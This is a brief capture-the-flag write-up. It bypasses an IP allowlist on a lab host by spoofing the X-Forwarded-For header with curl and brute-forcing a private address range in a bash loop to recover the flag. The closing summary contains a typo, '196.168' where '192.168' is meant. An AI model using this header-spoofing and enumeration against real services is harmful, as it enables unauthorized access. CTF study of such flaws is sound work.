 ## Component replacement 

Points: 3

We're told that we're looking for `fuel efficiency enhancer` at http://key-parts-list.cns-jv.tcc/ and that the old IP range was 192.168.96.0/20.

Querying the URL will tell us that it's expecting an IP from engine room: `You are attempting to access from the IP address 10.200.0.41, which is not assigned to engine room. Access denied. `

So we have to 1) find out how to spoof the source IP address and 2) find out an IP from engine room.

For #1 quick google search yields `X-Forwarded-For` header which works:
`curl -H 'x-forwarded-for: 192.168.96.10' http://key-parts-list.cns-jv.tcc/` -> `You are attempting to access from the IP address 192.168.96.10, which is not assigned to engine room. Access denied.`

For #2 let's just run through the whole range and store results:
`for x in {96..127}; do for y in {0..255}; do echo "$x.$y"; curl -H "x-forwarded-for: 192.168.$x.$y" http://key-parts-list.cns-jv.tcc/ 2>/dev/null > "r_${x}_${y}"; done; done`

and then search for the part needed:

`grep -ri 'fuel efficiency enhancer'`
 ->
 `Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz}`

(Engine room IPs are 192.168.100.32-> 192.168.100.63, i.e.  196.168.100.32/27)
